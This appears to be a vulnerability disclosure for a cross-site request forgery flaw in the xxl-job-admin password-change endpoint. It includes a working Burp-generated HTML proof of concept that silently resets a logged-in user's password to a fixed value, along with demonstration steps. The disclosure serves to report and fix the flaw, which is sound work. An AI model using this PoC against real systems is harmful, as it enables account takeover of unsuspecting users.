

# Cross-site request forgery

In this platform, there is a password modification module. The user identity is not verified when the password is modified. You can directly modify it by entering a new password. As shown in the figure.


Check the source code and find that the identity authentication used by the system for password modification is based on the LOGIN in the request_ IDETITY_ KEY.


The poc is constructed as follows. As long as the cookie is stored locally, the password can be modified to "abc123456".

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://xx.xx.xx.xx:8080/xxl-job-admin/user/updatePwd" method="POST">
      <input type="hidden" name="password" value="abc123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

**Vulnerability demonstration**

Add a test1 user and log in.


Click the link to modify the password.


The password is modified successfully, and the response code is as follows:



To sum up, there is a CSRF client request forgery vulnerability in the system where the password is modified, and a poc is constructed. If the user clicks, the password can be modified.